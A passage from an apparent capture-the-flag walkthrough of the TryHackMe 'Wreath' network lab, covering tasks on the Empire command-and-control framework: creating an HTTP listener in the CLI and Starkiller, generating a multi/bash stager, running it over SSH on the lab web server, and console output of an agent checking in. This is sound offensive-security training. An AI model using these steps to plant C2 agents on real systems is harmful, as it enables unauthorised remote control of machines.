This will run in the background, so we can use back to return to the Empire menu.

We can view this active listener with **listeners**.

To kill this we do **kill LISTENER_NAME**.

Now, we can do this with starkiller.

* Click create listener.
* Set the type to http.
* Set the Name, host, and port.
* Click submit.

## Task 26: [Command and Control] Empire: Stagers

Empire CLI:

```
usestager - lists available stagers
```

We will be using **multi/bash**. However, **multi/launcher** is usually a good option.

```
usestager multi/bash
info
```

We must set the options as before.

* Set the listener to the name of the listener we created in starkiller.
* Execute.
* Retrieve the stager from the /tmp directory.
* Save the stager in your exploits directory for Wreath.

To create a stager in starkiller, it is pretty much identical.

* Click Generate Stager
* Set Listener to the one previously made.
* Copy the stager to the clipboard.

You can decode this script with base64 if you want to see what it does.

## Task 27: [Command and Control] Empire: Agents

It's time to put our stager and listener together to get an agent on the Webserver.

Let's read through the script.

* The first line is the shebang, telling the shell to run as bash.
* The second section is the payload.
* The final 2 lines are the post processing commands that delete itself and exit.

We can take the payload, copy it, and execute it with our ssh session on the production web server.

```
(Empire: stager/multi/bash) > 
[*] Sending PYTHON stager (stage 1) to 10.200.72.200                                                                                                         
[*] Agent LUUP1KYM from 10.200.72.200 posted valid Python PUB key
[*] New agent LUUP1KYM checked in
[+] Initial agent LUUP1KYM from 10.200.72.200 now active (Slack)
[*] Sending agent (stage 2) to LUUP1KYM at 10.200.72.200
[!] strip_python_comments is deprecated and should not be used
(Empire: stager/multi/bash) > agents

[*] Active agents:
                                                                                                                                                             
 Name     La Internal IP     Machine Name      Username                Process            PID    Delay    Last Seen            Listener
```